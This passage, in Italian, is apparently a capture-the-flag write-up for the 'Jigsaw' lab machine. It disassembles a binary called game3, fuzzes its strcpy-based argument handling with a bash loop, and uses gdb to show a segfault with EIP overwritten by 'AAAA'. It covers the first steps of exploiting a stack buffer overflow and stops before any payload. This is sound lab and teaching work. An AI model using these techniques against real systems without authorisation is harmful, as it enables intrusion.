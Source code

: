 ```
 804847c:       8d 44 24 10             lea    0x10(%esp),%eax
 8048480:       89 04 24                mov    %eax,(%esp)
 8048483:       e8 88 fe ff ff          call   8048310 <strcpy@plt>
 8048488:       c9                      leave  
 8048489:       c3                      ret    
 804848a:       66 90                   xchg   %ax,%ax
 804848c:       66 90                   xchg   %ax,%ax
 804848e:       66 90                   xchg   %ax,%ax
```




Riscontriamo velocemente che le funzioni utilizzate sono errx e strcpy e le rispettive chiamate alla plt table.
Sembrerebbe che il codice operi un controllo sull'input e poi passi l'input ARGV[1] a strcpy.
Scriviamo un semplice script bash per testare velocemente quando il programma va in crash, anche se da un primo sguardo il valore dovrebbe essere verosimilmente vicino a 80.

```
 8048453:       83 ec 50                sub    $0x50,%esp 
```


Passiamo a verificarlo :


```
for i in {1..100};do export i; input=$(python -c 'import os;print ("A" * int(os.environ["i"]))');./game3 $input;echo $i;done;

```

Otteniamo l'errore di segmentazione al carattere 76.
Come mostrato sotto :


![Schermata da 2019-08-25 05-53-29](https://user-images.githubusercontent.com/54471416/63648358-c45d0700-c6fc-11e9-931a-a8666460f420.png)


Tramite gdb verifichiamo che iniettando in input 80 caratteri riusciamo a ottenere la sovrascittura del registro %EIP (instruction pointer) e %EBP (base pointer).
Come possiamo vedere sotto :


```
root@kali:~/Jigsaw# gdb --args ./game3 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
+ gdb --args ./game3 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
GNU gdb (Debian 8.1-4) 8.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./game3...(no debugging symbols found)...done.
(gdb) run
Starting program: /root/Jigsaw/game3 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```